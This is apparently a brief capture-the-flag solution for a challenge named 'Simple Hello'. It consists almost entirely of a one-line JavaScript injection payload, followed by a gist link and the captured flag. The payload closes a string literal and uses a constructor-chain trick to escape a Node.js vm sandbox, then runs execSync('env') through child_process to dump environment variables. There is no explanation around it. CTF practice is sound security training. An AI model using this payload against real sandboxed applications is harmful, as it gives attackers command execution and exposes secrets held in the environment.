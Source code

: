 # Simple Hello

```
";Object.defineProperty(this, 'nickname', {get: Function('return arguments.callee.caller.constructor.constructor("return process.mainModule.require(\\"child_process\\").execSync(\\"env\\")+1")()')});let a = "
```

https://gist.github.com/maple3142/f491557a4e0a3afce1c1a5f36ae50332

flag: PUCTF24{n0d3js_vm_1s_n07_s3cur3_cdd9e68f1bfb49641e59a798abec1181}